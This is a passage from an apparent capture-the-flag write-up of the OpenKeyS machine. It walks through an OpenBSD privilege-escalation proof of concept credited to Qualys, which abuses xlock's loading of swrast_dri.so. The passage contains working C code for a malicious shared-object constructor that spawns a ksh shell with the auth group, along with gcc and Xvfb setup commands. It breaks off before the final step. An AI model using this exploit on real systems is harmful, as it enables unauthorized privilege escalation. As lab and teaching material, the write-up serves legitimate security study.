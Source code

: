 
This looks confusing at first, but really, it checks that can read the set-
group-id of the current process, then sets the real, effective, and set-group-
id groups to that group (in this case `auth`). Then it sets `argv` to
`[/bin/ksh, 0]`, as `_PATH_KSHELL` is defined in `paths.h`, which I can find
that on OpenKeyS:

    
    
    openkeys$ find /usr/ -name paths.h 2>/dev/null
    /usr/src/include/paths.h
    /usr/include/paths.h
    openkeys$ grep KSHELL /usr/include/paths.h     
    #define _PATH_KSHELL    "/bin/ksh"
    

Then it calls `execve` with that set of args, which replaces the current
process with the new shell.

#### Execute

I’ll run with the POC from Qualys, working out of any directory (Qualys shows
`/tmp`, but I’ll use `/var/tmp` for variety). First I’ll drop the code for the
shell and compile it:

    
    
    openkeys$ cat > swrast_dri.c << "EOF"
    > #include <paths.h>   
    > #include <sys/types.h>       
    > #include <unistd.h>                                                                                                                                                                                            
    >          
    > static void __attribute__ ((constructor)) _init (void) {
    >     gid_t rgid, egid, sgid;                   
    >     if (getresgid(&rgid, &egid, &sgid) != 0) _exit(__LINE__);
    >     if (setresgid(sgid, sgid, sgid) != 0) _exit(__LINE__);
    >                                
    >     char * const argv[] = { _PATH_KSHELL, NULL };
    >     execve(argv[0], argv, NULL);
    >     _exit(__LINE__);                    
    > }                                              
    > EOF                             
    openkeys$ gcc -fpic -shared -s -o swrast_dri.so swrast_dri.c
    

Next I run `Xvfb`, which is the virtual framebuffer. It’s not totally clear to
my why I do this, but I’m setting up the server to listen for connections on a
server (poc uses `:66`, but it’s arbitrary, I’ll use `:45`). I think this is
to allow me to get a response from `xlock` even though it’s not a program that
displays anything. When I run it, sometimes it throws an error (on a clean
reset it does not), but it’s still running in the background (because of the
`&` at the end of the line):

    
    
    openkeys$ env -i /usr/X11R6/bin/Xvfb :45 -cc 0 &
    [1] 44906
    openkeys$ _XSERVTransmkdir: ERROR: euid != 0,directory /tmp/.X11-unix will not be created.
    
